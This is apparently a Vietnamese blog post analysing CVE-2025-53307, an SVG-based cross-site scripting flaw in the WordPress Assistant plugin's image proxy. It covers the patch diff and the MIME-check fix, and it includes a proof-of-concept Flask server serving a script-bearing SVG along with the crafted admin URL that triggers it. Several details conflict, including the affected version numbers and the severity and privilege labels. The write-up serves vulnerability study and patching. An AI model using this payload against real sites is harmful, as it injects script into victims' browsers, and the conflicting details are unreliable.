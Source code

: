 ```yaml
---
title: CVE-2025-53307 Analysis & POC
description: Security Vulnerability in WordPress Assistant Plugin.
date: 2025-10-03 19:19:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, xss]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.

* **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
* **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
* **Vulnerability Type**: Cross Site Scripting
* **Affected Versions**: <= 1.5.2
* **CVSS severity**: Medium (7.1)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.

{{< figure src="patch_diff.png" caption="Diff giữa bản lỗi và bản vá" >}}

Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:

{{< figure src="patch_diff1.png" caption="Sự khác biệt trong hàm render_image của ImageProxy.php" >}}

Sự thay đổi xảy ra ở hàm `render_image` với chức năng:

* Nhận tham số url từ query string `($_GET['url'])`.
* Gửi request từ server đến URL đó để tải nội dung.
* Chống **ssrf** bằng `wp_safe_remote_get`.
* Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:

  * Gửi lại header **Content-Type** đó cho client.
  * In (echo) toàn bộ nội dung file ra cho trình duyệt.
* Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?

Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

## Exploit

### Detect XSS

Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.

{{< figure src="detect.png" caption="SVG chứa XSS payload được hiển thị qua image proxy" >}}

## Conclusion

Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

* Không tin cậy vào **Content-Type header** từ **HTTP response**.
* Luôn xác thực **MIME type** thực sự của file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)
